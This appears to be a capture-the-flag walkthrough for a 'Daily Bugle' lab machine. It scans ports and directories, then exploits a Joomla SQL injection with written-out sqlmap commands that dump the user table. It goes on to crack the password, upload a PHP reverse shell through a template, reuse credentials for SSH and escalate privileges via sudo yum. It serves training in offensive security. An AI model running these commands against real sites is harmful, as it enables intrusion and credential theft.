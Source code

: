 # Daily Bugle

### Deploy

**Who robbed the bank?**

Navigate to the ip address and find the culprit.

### Obtain user and root

Scan with [nmap](./daily-bugle.nmap), found open ports:

- 22 ssh
- 80 http
- 3306 mysql

Enumerate with [gobuster](./daily-bugle.gobuster), found directories:

- /images
- /media
- /templates
- /modules
- /bin
- /plugins
- /includes
- /language
- /components
- /cache
- /libraries
- /tmp
- /layouts
- /administrator
- /cli

Found the Joomla CMS portal at /administrator

**What is the Joommla version?**

Use [CMSeeK](https://github.com/Tuhinshubhra/CMSeeK) to find Joomla version

**What is the cracked password?**

Find [Joomla exploit](https://www.exploit-db.com/exploits/42033) on exploit db

Test SQLi

`http://<TARGET-IP>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=<SQL-QUERY>`

Use sqli to dump db (--level=5 important, takes a while and can be flaky)

Map:

`sqlmap -u "http://$ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`

Dump users:

`sqlmap -u "http://&ltremote-ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump`

Crack hashed password from dumped db

Log in to CMS with credentials from db

**What is the user flag**

Upload php reverse shell through protostar templates and execute with:

`http://<TARGET-IP>/templates/protostar/shell.php`

Find mysql password in configuration file and try ssh log in with user name and mysql 
password

Use cat to read user.txt

**What is the root flag**

Check user privileges with `sudo -l` and privesc with yum

Use cat to read root.txt
